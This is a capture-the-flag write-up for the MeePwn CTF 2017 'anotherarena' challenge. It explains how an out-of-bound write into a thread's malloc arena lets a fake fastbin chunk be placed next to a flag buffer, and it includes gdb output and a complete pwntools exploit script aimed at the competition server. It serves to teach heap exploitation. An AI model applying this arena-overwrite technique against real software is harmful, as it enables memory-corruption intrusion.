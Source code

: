 ```yaml
---
title: MeePwn CTF 2017 -- anotherarena
tags:
  - CTF
  - Pwnable
  - Python
  - MeePwn
  - heap
categories:
  - write-ups
date: 2017-07-16 11:00:00
---
```

**Category:** Pwnable

64 bit ELF, Partial RELRO, canary & NX enabled, No PIE.  

<!-- more -->


The program is a simple crackme program with multi-thread. First, the program will read the FLAG into a global buffer `flag` . Then, it will ask us to input the size of a buffer. Later the program will use a thread to malloc a buffer `buf` with the given size. Then the program will use another thread to do the following:  
* Ask for a 4 byte data and treat it as `index`
* Ask for a 4 byte data, and store it at `buf[index]`
* Repeat


It will repeat `given_size / 4` times. If the input `index` is larger than the given size, it will also break out the loop. Basically it just letting us input a bunch of integers to the `buf` buffer.  


After that the program will do the following:
```c
/* add all integers in buf to v5*/
for ( i = 0; i < LODWORD(g_size[0]); i += 4 )
    v5 += *(int *)((char *)g_heap_buf + (signed int)i);

/* read size and allocate a buffer ( for license) */
size = read_int();
lic = malloc((unsigned int)size);
/* read to lic */
read(0, lic, (unsigned int)size);
/* crackme check*/
if ( v5 == 3233853430 )
    printf("Good boy! Your license: %s\n", lic);
else
    puts("Bad b0y!");
exit(0);
```

So, to solve this challenge, we'll have to:
* Pass the crackme check ( this is easy )
* **Locate the `lic` buffer at ( or near ) the `flag` buffer**, so later we can leak the flag by print out the license content. We'll focus on this one.


First of all the program has a out-of-bound write vulnerability: by input a **negative** `index`, we can overwrite the data at `buf[-XXX]`.  

Before we use this vulnerability to exploit the service, we'll have to understand how the malloc work in different thread. When a thread wants to malloc a buffer, it will use its own `arena` structure, a data structure which stores the malloc state of that thread ( check out the [source code](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#1648) ). The `arena` structure will also store the fastbin chunks' address ( the `fastbinsY[NFASTBINS]` member ). 

If we can control `fastbinsY[NFASTBINS]`, we'll be able to malloc a fastbin chunk at any address ( theoretically, since we'll still need to bypass some check in malloc ). By using gdb, we can locate the thread `arena`'s address is at `buf - 0x8a0`, making us able to use the OOB write to overwrite its data structure.

Now we'll have to choose our fake chunk's location. I decided to choose the address `0x6020bd`: 

```
gdb-peda$ x/2gx 0x6020bd
0x6020bd:       0xfff7bb5540000000      0x000000000000007f   <-- fake fastbin chunk ( size = 0x70 )
```

We can see that `0x6020bd` is a good target of a fake fastbin[5] chunk ( size = 0x70 ). The `0x7f` is a part of the `stderr` address. Moreover, the `flag` is at `0x602101` ( behind the fake chunk ) , so we can just pad some chars to the allocated chunk ( pad until it reach the beginning of the flag buffer ), later when the program print out the license content, it will give us the flag as well.  

So to sum up:
1. Use the OOB write to overwrite `fastbinsY[5]`
2. Choose the fake fastbin[5] chunk target at `0x6020bd`
3. Input the data to bypass the crackme check
4. Input allocate size to make `malloc()` allocate fastbin[5] ( size = 0x70 )
5. Pad the allocated buffer until it reach the `flag` buffer
6. Print out the license and get the flag

```python exp_arena.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.241.76"
PORT = 31335
ELF_PATH = "./anotherarena_noalarm"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

flag = 0x602101
fake_chunk = 0x6020bd

def write(off, data):
    r.send(p32(off))
    time.sleep(0.5)
    r.send(p32(data))
    time.sleep(0.5)

if __name__ == "__main__":
    
    r = remote(HOST, PORT)

    r.sendline("50")
    time.sleep(0.5)
    # move the offset to thread's arena + 0x30 ( fastbin[5], size=0x70 )
    # fake chunk near stderr, use its 0x7f to create fake chunk
    write(0xfffff790, fake_chunk)
    # make final answer = 3233853430
    write(0, 0x7fffffff)
    write(4, 0x40c0af8f)
    
    # break loop
    r.send(p32(100)) 
    time.sleep(0.5)
    
    # allocate buf & pad to flag
    r.sendline("104") # allocate 104 byte
    time.sleep(0.5)
    r.send("i"*0x34) # pad to flag

    r.interactive()
```

flag: `MeePwnCTF{oveRwrit3_another_(main)_arena}`

